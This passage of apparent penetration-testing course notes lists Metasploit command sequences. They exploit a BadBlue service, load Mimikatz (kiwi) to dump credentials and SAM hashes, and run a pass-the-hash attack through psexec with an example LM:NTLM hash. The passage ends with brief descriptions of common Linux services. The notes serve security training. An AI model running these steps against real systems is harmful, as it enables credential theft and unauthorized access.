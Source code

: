 
### Practical hash dumping with Mimikatz.

- `service postgresql start && msfconsole`
- `use exploit/windows/http/badblue_passthru`
- `set RHOST 10.2.30.1`
- `exploit`
- `pgrep explorer`
- `migrate 592`
- `load kiwi` Load kiwi module
- `?` for help menu
- `creds_all`
- `lsa_dump_sam`
- `LSA secrets`


### Pass-The-Hash Attack

Pass-the-hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately. We can use multiple tools to facilitate a Pass-The-Hash attack:
- Metasploit PsExec module
- Crackmapexec
This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation.

### Practical Pass-The-Hash Attack

For this module you need the LM Hash in addition to the NTLM hash. You can just type in `hash dump` and it displays both hashes.
- `service postgresql start && msfconsole`
- `use exploit/windows/smb/psexec`
- `set LPORT ` to another port than the currently running session
- `set RHOST 10.2.28.132`
- `set SMBUser Administrator`
- `set SMBPass (LM + NTLM Hash of the target machine)` Example: aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d
- `set target Command or Native\ upload`
- `exploit`


## Exploiting Linux Vulnerabilities

### Frequently Exploited Linux Services

**TCP ports**
Apache Web Server is a Free and open source cross-platform web server released under the Apache License 2.0. Apache accounts for over 80% of web servers globally. Typically configured to run on port 80/443.

**SSH (Secure Shell)**
 SSH is a cryptographic remote access protocol that is used to remotely access and control systems over an unsecured network. SSH was developed as a secure successor to telnet. Typically configured to run on port 22.
 